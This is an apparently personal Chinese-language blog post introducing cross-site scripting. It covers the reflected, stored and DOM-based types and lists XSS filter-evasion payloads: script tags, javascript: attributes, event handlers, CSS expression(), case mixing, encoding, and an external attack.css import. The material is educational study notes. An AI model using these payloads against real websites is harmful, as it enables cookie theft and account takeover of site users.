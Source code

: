 ```yaml
---
layout: post
title:  "XSS 入门"
image: ''
date:   2016-04-10 00:06:31
tags:
- web
- penetration
description: ''
categories:
- web
---
```



> 本文写于 2016.04.10

- [引言](#引言)
- [XSS 分类](#xss-分类)
- [XSS 构造剖析](#xss-构造剖析)
- [结尾](#结尾)


## 引言
学习 Web 安全，必然是从 SQL 注射和 XSS 开始的，毕竟貌似比较基础。学习了几天，没挖出什么洞，只好先总结一下。。。
名言金句：见框就插、改数据包不可见部分、改 URL 参数、js 分析。


## XSS 分类
1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到 URL 地址的参数中，原理如下：发现存在反射 XSS 的 URL——根据输出点的环境构造 XSS 代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行 XSS 代码——完成攻击(获取 cookies、url、浏览器信息、IP 等)。反射型 XSS 的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。
例如：
```
http://www.test.com/search.php?key="><script>alert("XSS")</script>
http://www.test.com/view.shtml?query=%3Cscript%3Ealert%281%29%3C/script%3E
http://www.test.com/logout.asp?out=1&url=javascript:alert(document.cookie)
```
```seq
Title: 反射型XSS攻击流程
攻击者->受害者: XSS链接&恶意脚本
受害者->服务器: 请求
服务器->>受害者: 响应
```

![反射xss](/post_pic/2016-04-10-xss_for_beginners/xss_1.png)

2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意 JavaScript 代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。
```seq
Title: 持久型XSS攻击流程
攻击者->服务器: 注入恶意代码
受害者->服务器: 请求
服务器->>受害者: 响应
```

![持久xss](/post_pic/2016-04-10-xss_for_beginners/xss_2.png)

3、DOM XSS。前面两种 XSS 一般出现在服务器端代码中，而 DOM-Based XSS 是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用 `document.location`、`document.URL`、`document.referrer` 等对象获取数据。
举个例子，有如下 HTML 代码：
```
<html>
  <head>
    <title>Welcome!</title>
  </head>
  <body>
    <p>Hi</p>
    <script>
      var pos=document.URL.indexOf("name=")+5;
      document.write(document.URL.substring(pos,document.URL.length));
    </script>
  </body>
</html>
```
通常，这个欢迎网页的请求是这样的：
`http://www.test.com/welcome.html?name=lihua`
然而，如果这个请求是这样的：
`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`
这就导致了 XSS，弹出了 cookie。

4、最后贴一张比较图。

![xss](/post_pic/2016-04-10-xss_for_beginners/xss_3.png)


## XSS 构造剖析
现实中大多数的网站都有一个 XSS Filter，用来分析用户提交的输入，并消除潜在的跨站脚本攻击。XSS Filter 一般是基于黑白名单的安全过滤策略，于是就存在被绕过的可能。
１、利用 `<>` 标记注射 html/javascript。
如：`<script>alert('XSS'); </script>`
２、利用 html 标签属性值执行 XSS。很多 html 标记中的属性都支持 javascript:[code] 伪协议，可以尝试这些属性：`href`、`lowsrc`、`bgsound`、`background`、`value`、`action`、`dynsrc` 等。
举个例子：
`<table background="javascript:alert('xss')"></table>`
`<img src="javascript:alert('XSS');">`
３、空格回车 Tab。javascript 结束一条语句的方式有两种，一种是分号`;`，另一种是当 javascript 引擎确定一个句子完整，而这一行的结尾有换行符。
于是可以构造如下：
```
<img src="ja    vas
cript:
ale rt('XSS')>
```
４、进行各种转码。常用的 URL 编码，unicode 编码，HTML 编码，CSS 编码等。
５、产生事件法。javascript 和 html 通过事件来进行交互，事件能让 javascript 代码运行，也就能执行跨站脚本。
例如：
`<img src="#" onerror=alert('XSS')>`
`<input type="button" value="click me" onclick="alert('XSS')"/>`
６、利用 CSS 跨站。这一方法灵活多变而且隐蔽，可以嵌入到 html 中，如：
```
<div style="background-image:url(javascript:alert('XSS'))">
<style>
  body {background-image: url("javascript:alert('XSS')");}
</style>
```
也可以从其他文件中引用：
`<link ret="stylesheet" href="http://www.test.com/attack.css">`
`<style type='text/css'>@import url(http://www.test.com/attack.css);</style>`
还可以用 expression 执行 javascript：
```
<div style="width: expression(alert('XSS'));">
<img src="#" style="xss:expression(alert('XSS'));">
<style>
  body {background-image: expression(alert('XSS'));}
</style>
```
７、扰乱过滤规则。
大小写转换法：`<sCrIpt>alert('XSS')</ScripT>`
干扰字符污染法：`<div style="wid/****/th: expre/*XSS*/ssion(alert('XSS'));">`
字符编码法：`<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>`
拼凑法：`<scr<script>rip>alalertert</scr</script>rip>`


## 结尾
参考资料：
- 《XSS跨站脚本攻击剖析与防御》
- [freebuf/black-hole](http://www.freebuf.com/author/black-hole)
- [XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

